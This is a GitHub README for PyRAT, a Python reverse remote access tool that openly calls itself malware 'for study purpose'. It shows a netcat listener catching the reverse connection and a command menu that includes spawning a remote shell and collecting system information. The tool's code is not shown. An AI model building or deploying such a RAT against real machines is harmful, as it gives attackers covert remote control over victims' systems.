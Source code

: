 <h1 align="center">PyRAT</h1>
<p align="center">Python Remote Access Tool</p>
<p align="center">Reverse Remote Access Tool written in Python for study purpose.</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>
<p align="center">Tested on Linux.</p>

---

### Disclaimer
Usage of this malware (PyRAT) for attack targets without prior mutual consent is illegal. 
It is the end user's responsability to obey all applicable local, state, federal and international laws. 
Developer assume no liability and not responsible for any misuse or damage caused by this program.

---

## Use netcat to receive connection.
```
$ nc -lvp 4444

Listening on 0.0.0.0 4444
Connection received on localhost 39978
Connection Estabilished!
PyRAT 1.0
Host: kali
Say Hi!

cmd>
```

## Help Menu
```
cmd> help

Help Menu:
----------
help  | Help menu.
exit  | Break connection but keep running.
close | Close connection and stop.
    
sysinfo | System Information.
pyinfo  | Python Installed Information.
shell   | Spawn shell.
    
cmd>
```
---

